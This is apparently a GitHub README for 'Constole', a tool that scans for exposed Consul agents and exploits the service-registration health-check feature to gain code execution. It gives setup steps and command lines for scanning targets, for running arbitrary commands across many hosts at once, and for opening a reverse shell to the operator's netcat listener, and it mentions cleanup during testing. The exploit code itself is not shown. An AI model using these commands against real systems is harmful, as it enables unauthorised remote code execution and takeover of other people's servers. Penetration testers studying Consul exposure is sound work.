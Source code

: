 ## Overview
Scan for Consul agents and exploit them to gain shell.
I've been messing around with Consul and while reading the API, found the service registration endpoint.
Registrations feature check functionality, which is typically used to provide health checks on nodes.
A check can be an external application or script, which performs some kind of health check and provides some form of output.
Essentially, this can be any script you define to run at certain time intervals.

### Setup
```
pip install -r requirements.txt
```

### Usage
To scan for hosts running vulnerable Consul agent services, you can provide an comma-separated list with host:port,host:port,...,etc or an input file.
```
python constole.py --targets '10.50.30.1:8500,10.50.30.2:8500'
python constole.py --infile mytargets.txt
```
Remote Code Execution can be achieved across multiple hosts as follows:
```
python constole.py --infile mytargets.txt --cmd 'my command to run' --exploit
```
To obtain a reverse shell from the vulnerable host, start a netcat listener on your desired port and select a single target:
```
python constole.py --targets 10.50.30.1:8500 --lhost my_ip_address --lport my_listening_nc_port --exploit
```
Note that Constole will automatically try to deregister the service, after a time period, to assist in clean up during testing.
